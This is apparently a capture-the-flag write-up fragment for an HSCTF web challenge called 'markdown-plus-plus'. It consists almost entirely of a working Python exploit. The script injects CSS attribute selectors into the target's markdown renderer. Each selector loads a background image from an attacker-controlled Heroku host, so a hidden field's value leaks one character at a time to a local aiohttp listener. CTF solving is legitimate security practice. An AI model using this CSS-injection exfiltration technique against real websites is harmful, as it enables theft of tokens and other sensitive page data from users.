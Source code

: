 # web
## markdown-plus-plus
```python
import base64
from aiohttp import web
import asyncio
import string
import os
import requests

TARGET = "http://web1.hsctf.com:8002"
URL = "http://markdown-plus-plus-asdof.herokuapp.com"

async def css_injection():
	curr = "{"
	
	resp = asyncio.Queue()
	send_next = asyncio.Event()
	send_next.set()
	
	routes = web.RouteTableDef()
	
	@routes.get("/get/{name}")
	async def get(request):
		print(request.match_info)
		await resp.put(request.match_info["name"])
		return web.Response(body="")
	
	app = web.Application()
	app.add_routes(routes)
	runner = web.AppRunner(app)
	await runner.setup()
	site = web.TCPSite(runner, '0.0.0.0', int(os.getenv('PORT') or 8000))
	await site.start()
	
	try:
		while True:
			css = inject(curr)
			s = "[c=red}%s]" % css
			url = f"{TARGET}/display#{base64.b64encode(s.encode('utf-8')).decode()}"
			print(url)
			# requests.get(url)
			c = await resp.get()
			curr += c
			print(curr)
			send_next.set()
	finally:
		await runner.cleanup()

def inject(prefix):
	css = ""
	for c in string.ascii_lowercase + "{_}":
		css += f"[placeholder*='{prefix+c}']{{background:url(\"{URL}/get/{c}\")}}"
	return css

asyncio.run(css_injection())
```
# algorithms
## vending-machine-v2